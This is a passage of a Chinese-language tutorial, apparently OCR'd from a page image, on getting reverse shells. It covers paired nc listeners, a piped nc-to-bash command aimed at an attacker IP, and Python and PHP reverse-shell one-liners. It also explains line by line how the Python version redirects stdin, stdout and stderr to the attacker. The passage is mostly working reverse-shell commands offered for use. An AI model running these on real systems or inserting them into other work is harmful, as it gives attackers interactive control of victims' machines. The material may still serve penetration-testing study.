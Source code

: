 若-e 不能使用，可以利用到linux中的管道符。攻击机上开两个端口来监听。例如：

```shell
nc -nvlp 7777

nc -nvlp 8888
```

被攻击上执行

```shell
nc 192.168.14.200 7777|/bin/bash|nc 192.168.14.200 8888
```

这样在攻击机上一个端口发送命令一个端口接收回显。

![image-20200627174232125]( image-20200627174232125.png)



#### 方法3:利用python反弹

使用python反弹，被攻击机反弹shell命令如下：

```shell
python -c "import os,socket,subprocess;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('ip',port));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(['/bin/bash','-i']);"

#ip port 为攻击机的端口
```

在进攻机上执行监听命令：

```bash
nc -lvp (port)   #port 为监听的端口  可以在前面加个n
```



下面来解释一下python反弹shell的原理。

首先使用socket与远程建立起连接，接下来使用到了os库的dup2()将标准输入、标准输出、标准错误输出重定向到远程，dup2()这个方法有两个参数，分别为文件描述符fd1和fd2，当fd2参数存在时，就关闭fd2，然后将fd1代表的那个文件强行复制给fd2。（可以理解成重定向的作用，fd2 >& fd1 ）.

s.fileno()是s的文件描述符，而s指代攻击机。所以s.fileno()就代表攻击机。

使用os.subprocess在本地开启一个子进程，传入参数“-i”使bash以交互模式启动，标准输入、标准输出、标准错误输出又被重定向到了s.fileno()(攻击机），这样的话就可以在攻击机远程执行输入命令了。

效果展示:

![image-20200627165202955]( image-20200627165202955.png)

#### 方法4:利用php反弹

##### 

```shell
php -r '$sock=fsockopen("ip",port);exec("/bin/bash -i <&3 >&3 2>&3");'
```
